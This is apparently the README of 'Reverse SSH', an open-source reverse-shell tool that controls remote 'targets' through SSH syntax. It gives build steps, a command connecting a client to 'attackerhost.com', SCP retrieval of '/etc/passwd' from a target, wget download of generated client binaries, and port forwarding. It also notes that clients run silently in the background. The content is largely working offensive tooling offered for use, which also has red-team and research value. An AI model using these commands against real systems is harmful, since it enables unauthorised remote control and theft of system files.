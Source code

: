 # Reverse SSH

Want to use SSH for reverse shells? Now you can.  

- Manage and connect to reverse shells with native SSH syntax
- Dynamic, local and remote forwarding with simple jumphost syntax
- Native SCP implementation for retrieving files from your targets
- Full windows shell even if the host is not supported by ConPty
- Mutual client & server authentication to create high trust control channels  
And more! 


```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+   RSSH  |
                    |    Reverse     |       |         |  Client |
                    |  SSH server    |       |         |         |
                    |                |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |   SSH   |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         |   RSSH  |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         |   RSSH  |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
git clone https://github.com/NHAS/reverse_ssh

cd reverse_ssh

make
cd bin/

# start the server
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232

# copy client to your target then connect to the server
./client attackerhost.com:3232

# Get help text
ssh localhost -p 3232 help

# See clients
ssh localhost -p 3232 ls -t

                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+


# Connect to full shell
ssh -J localhost:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac

# Or using hostname 

ssh -J localhost:3232 root.wombo

```

## Setup Instructions

> **NOTE:** reverse_ssh requires Go **1.17** or higher. Please check you have at least this version via `go version`

The simplest build command is just:

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.
Alternatively, you can use the --authorizedkeys flag to point to a file.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control, then connect to the server.

```sh
./client yourserver.com:3232
```

You can then see what reverse shells have connected to you using `ls`:

```sh
ssh yourserver.com -p 3232 ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

```

Then typical ssh commands work, just specify your rssh server as a jump host. 

```sh
# Connect to full shell
ssh -J youserver.com:3232 root.wombo

# Run a command without pty
ssh -J youserver.com:3232 root.wombo ls

# Start remote forward 
ssh -R 1234:localhost:1234 -J youserver.com:3232 root.wombo ls

# Start dynamic forward 
ssh -D 9050 -J youserver.com:3232 root.wombo ls

# SCP 
scp -J youserver.com:3232 root.wombo:/etc/passwd .

```

## Fancy Features

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```

### Built in Web Server

The RSSH server can also run an HTTP server on the same port as the RSSH server listener which serves client binaries that are compiled on the fly, for whatever platform you specify. 

```sh
./server --enable_webserver your.listen.address:port

# Generate an unnamed link
ssh your.listen.address -p port link

http://your.listen.address:port/483f6d194ed62f889c853725b6a29748

```

Then you can download it as follows

```sh
wget http://your.listen.address:port/483f6d194ed62f889c853725b6a29748
chmod +x {filename}
```


### Full Windows Shell Support

Most reverse shells for windows struggle to generate a shell environment that supports resizing, copying and pasting and all the other features that we're all very fond of. 
This project uses conpty on newer versions of windows, and the winpty library (which self unpacks) on older versions. This should mean that almost all versions of windows will net you a nice shell. 

## Foreground vs Background (Important note about clients)

By default, clients will run in the background. When started they will execute a new background instance (thus forking a new child process) and then the parent process will exit. If the fork is successful the message "Ending parent" will be printed.

This has one important ramification: once in the background a client will not show any output, including connection failure messages. If you need to debug your client, use the `--foreground` flag.
